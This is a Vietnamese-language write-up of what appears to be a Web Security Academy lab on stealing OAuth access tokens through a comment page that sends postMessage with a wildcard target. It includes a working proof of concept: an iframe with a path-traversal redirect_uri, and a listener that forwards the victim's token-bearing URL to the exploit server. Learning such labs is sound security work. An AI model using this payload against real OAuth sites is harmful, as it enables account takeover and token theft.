

# Lab: Stealing OAuth access tokens via a proxy page

**Mục tiêu:** Lấy access token của victim bằng cách lạm dụng trang proxy/postMessage trên trang comment (exposed postMessage + fragment token).

**Phát hiện (Detect)**

- Intercept flow OAuth và redirect nội bộ sang `/post?postId=1` thấy URL chứa `#access_token=...`.
- Kiểm tra `/post/comment/comment-form` thấy script dùng `parent.postMessage({type:'onload', data: window.location.href}, '*')` và sau đó gửi `oncomment` với nội dung kết hợp `FormData` + `window.location.hash`.
- `postMessage` sử dụng target `'*'` nên có thể gửi dữ liệu ra host tùy ý nếu attacker có cách đặt frame/relay.

**Khai thác (Exploit)**

- Dựng exploit page chứa iframe tới OAuth authorize endpoint với `redirect_uri` trỏ tới `/oauth-callback/../post/comment/comment-form` (sử dụng path traversal để tới form có postMessage).
- Thêm listener trên exploit server để nhận message từ iframe và log `window.location.href` (chứa fragment `#access_token=...`).

PoC body (exploit server):

```html
<iframe
  src="https://0aae00af0493a95e8015851800d700c9.oauth-server.net/auth?client_id=...&redirect_uri=https://0aae00af0493a95e8015851800d700c9.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=...&scope=openid profile email"
></iframe>

<script>
  window.addEventListener(
    "message",
    function (e) {
      fetch("/" + encodeURIComponent(e.data.data));
    },
    false,
  );
</script>
```

- Khi victim mở trang exploit, iframe thực hiện flow OAuth; page comment gửi `postMessage` chứa URL có fragment; exploit server nhận và ghi log URL đã mã hóa.

**Kết quả**

- Logs exploit server chứa request với `access_token` của victim (đã URL-encoded).
- Dùng token để gọi `GET /me` lấy thông tin account (ví dụ admin) và hoàn tất lab.


